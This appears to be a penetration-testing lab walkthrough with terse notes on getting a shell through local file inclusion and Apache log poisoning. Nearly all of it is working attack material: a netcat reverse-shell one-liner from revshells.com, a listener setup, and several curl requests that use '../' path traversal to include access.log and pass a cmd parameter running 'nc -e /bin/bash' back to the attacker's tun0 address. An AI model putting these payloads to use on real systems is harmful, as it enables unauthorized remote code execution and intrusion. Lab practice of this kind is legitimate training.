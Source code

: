 [https://www.revshells.com/](https://www.revshells.com/)

  

nc%20-c%20%2Fbin%2Fbash%20192.168.45.231%204444

  

Prep nc listener: nc -nlvp 4444 

Find the local device ip address (of the tunnel subnet)                                                                                    

>ip addr

  

5691: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500                                                                                                                          

    link/none                                                                                                                                                                                                                               

    inet 192.168.45.231/24 scope global tun0                                                                                                                                                                                                

       valid_lft forever preferred_lft forever                                                                                                                                                                                              

    inet6 fe80::92e5:afec:95c8:4d4d/64 scope link stable-privacy                                                                                                                                                                            

       valid_lft forever preferred_lft forever 

Now the rev shell command is prepped I'll log poison to get a rev shell

  

More on log poisoning [https://systemweakness.com/log-poisoning-to-remote-code-execution-lfi-curl-7c49be11956](https://systemweakness.com/log-poisoning-to-remote-code-execution-lfi-curl-7c49be11956)

[http://192.168.235.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.231%204444%20-e%20%2Fbin%2Fbash%20](http://192.168.235.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.231%204444%20-e%20%2Fbin%2Fbash%20)

  

curl -s "[http://192.168.235.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.231%204444%20-e%20%2Fbin%2Fbash%20](http://192.168.235.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.231%204444%20-e%20%2Fbin%2Fbash%20)"

  

Another one since the above didn't seem to work. 80 since it was already open and I rather tunnel through an existing port than set up a new one

curl -s "[http://192.168.235.72:8593/index.php?book=../../../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.231%2080%20-e%20/bin/bash%20&](http://192.168.235.72:8593/index.php?book=../../../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.231%2080%20-e%20/bin/bash%20&)"

  

I like the URL encoded / forward slashes

curl -s "http://[192.168.235.72:8593](http://192.168.235.72:8593/index.php?book=../../../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.231%2080%20-e%20/bin/bash%20&)/index.php?book=../../../../../var/log/apache2/access.log&cmd=nc%20[192.168.45.231](http://192.168.235.72:8593/index.php?book=../../../../../../../var/log/apache2/access.log&cmd=nc%20192.168.45.231%2080%20-e%20/bin/bash%20&)%2080%20-e%20%2Fbin%2Fbash%20"

  